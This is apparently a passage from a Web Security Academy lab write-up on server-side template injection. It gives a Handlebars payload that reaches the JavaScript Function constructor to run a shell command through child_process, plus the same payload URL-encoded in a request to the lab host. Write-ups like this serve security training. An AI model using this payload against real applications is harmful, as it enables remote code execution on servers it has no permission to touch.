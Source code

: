 Execute ls -la:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').spawn('ls',['-la']).stdout.on('data', function (data) {console.log('own'+ data); });"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
``` 

Url-encode it and get the content with https://0ab300360386552481b34d2700c600da.web-security-academy.net/?message=%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%73%70%61%77%6e%28%27%6c%73%27%2c%5b%27%2d%6c%61%27%5d%29%2e%73%74%64%6f%75%74%2e%6f%6e%28%27%64%61%74%61%27%2c%20%66%75%6e%63%74%69%6f%6e%20%28%64%61%74%61%29%20%7b%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%27%6f%77%6e%27%2b%20%64%61%74%61%29%3b%20%7d%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d:



![img](images/12%20-%20Server-side%20template%20injection%20in%20an%20unknown%20language%20with%20a%20documented%20exploit/6.png)
